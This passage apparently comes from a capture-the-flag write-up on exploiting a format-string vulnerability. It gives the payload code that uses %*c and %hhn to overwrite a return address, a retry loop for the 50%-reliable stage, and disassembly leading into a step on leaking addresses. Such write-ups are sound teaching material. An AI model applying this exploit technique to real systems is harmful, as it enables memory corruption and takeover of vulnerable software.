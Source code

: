 ```
    # to ensure that the lsb is `8 * 16` = `0x80`
    f"%1$*15$c" * 15,      # add the value stored before 15 times (so we multiply by 16)

    # add 6 15 times (because the stored value is 6 less because of the 6 %c)
    # add 0xe so that the lsb will be `0x8e` (the lsb of the address we want to return to)
    f"%{15 * 6 + 0x0e}c",  
    
    # overwrite the return address
    f"%46$hhn",
])
```

Because of the aforementioned limitation that `%*c` only works for positive arguments, this exploit only works with a chance of `50%`.
We can simply execute it in a loop until it succeeds one time:

```python
for _ in range(20):
    connect()
    try:
        r.sendlineafter("> ", STAGE0)
        r.recvline_contains("done")
        
        # success: we should get the prompt again
        r.recvuntil("> ")
        break
    except EOFError:
        pass

```

After this initial stage, we now have a pointer to the return address at argument 46.
So in the next stages, we can simply use this pointer to set the return address to whatever we want.

# Step 2: enabling output and leaking addresses
Looking at the disassembly of main again, we note something interesting directly before the call to the `service` function:

```asm
0000127e  8945fc             mov     dword [rbp-0x4 {fd}], eax
00001281  837dfc00           cmp     dword [rbp-0x4 {fd}], 0x0
00001285  7907               jns     0x128e

00001287  b8ffffffff         mov     eax, 0xffffffff
0000128c  eb0d               jmp     0x129b

0000128e  8b45fc             mov     eax, dword [rbp-0x4 {fd}]
00001291  0fbec0             movsx   eax, al
00001294  89c7               mov     edi, eax
00001296  e802000000         call    service
```

